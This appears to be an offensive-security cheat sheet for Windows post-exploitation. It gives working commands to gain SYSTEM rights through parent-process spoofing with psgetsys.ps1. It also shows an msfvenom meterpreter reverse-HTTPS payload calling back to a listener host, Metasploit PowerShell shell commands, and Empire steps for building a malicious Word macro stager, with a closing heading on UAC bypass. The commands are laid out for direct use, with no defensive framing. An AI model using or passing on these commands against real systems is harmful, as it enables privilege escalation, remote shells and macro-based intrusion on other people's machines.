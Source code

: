     - [decoder-it](https://github.com/decoder-it) you can find inside [psgetsystem](https://github.com/decoder-it/psgetsystem)
    - It allows as to get system privileages via parent process, which then spawns a child process which effectively inherits the SYSTEM access privileges of the parent.
    - `. .\psgetsys.ps1`  
        `[MyProcess]::CreateProcessFromParent(<system_pid>,"command_to_execute>")`
    - `Get-Process -IncludeUserName | Where-Object {$_.UserName -match "SYSTEM"} | Format-List -Property Username,Name,Id` This will list all Administartor privileged process we can select any from the list.
    - `. .\psgetsys.ps1`  
        `[MyProcess]::CreateProcessFromParent(3632,"cmd.exe")`  
        This will launch a cmd.exe prompt, but as a child process of the SYSTEM-owned ZeroConfigService.exe process, and as a result, our "child" process, will also be SYSTEM.
- **Empire**
    
    - [Empire](https://github.com/EmpireProject/Empire)

* * *

* * *

- metasploit  
    `msfvenom -p windows/x64/meterpreter_reverse_https lport 443 lhost=192.168.13.62 -f psh-reflection -o payload.ps1` we can the start handler and execute this in remote target and get powershell environment shell.  
    `load powershell`  
    `powershell_shell`  
    `powershell_execute [command]`

Use web_delivery module to pass control from Empire to metasploit and `usemodule powershell/code_execution/invoke_metasploitpayload` and give url as options then execute.

* * *

* * *

## Empire overview

`shell cmd`  
`usemodule` to use any modules  
`searchmodule checks`  
  
  
`usestager windows/macro`  
`set Listener http`  
`set OutFile /directory/macro`  
Then we can copy paste this content to word visual editor page.

* * *

* * *

## UAC Bypass Powershell Exploit Script

Find auto elevate applications which will auto elevate themself to high integrity without running as administrator.
